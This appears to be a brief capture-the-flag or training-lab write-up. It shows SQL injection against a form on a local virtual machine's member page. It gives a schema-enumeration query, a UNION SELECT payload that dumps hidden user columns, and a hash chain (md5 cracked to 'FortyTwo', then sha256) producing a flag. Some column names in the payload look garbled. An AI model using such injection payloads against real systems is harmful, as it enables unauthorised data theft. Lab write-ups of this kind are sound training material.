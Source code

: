 We have a form to fill at the page "http://192.168.56.102/?page=member".

It looks like backend use the input from it right in an SQL statement. So we can use it for an "injection".

Let's take a look on schema:

SELECT table_name, column_name FROM information_schema.columns

Now we know all the columns and names:


Let's see what is inside the hidden columns:

1 AND 1=2 UNION SELECT planet
, CONCAT(Commentaire, countersign) FROM users;




5ff9d0165b4f92b14994e5c685cdce28 >> md5 >> FortyTwo >> lower() >> sh256 >> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

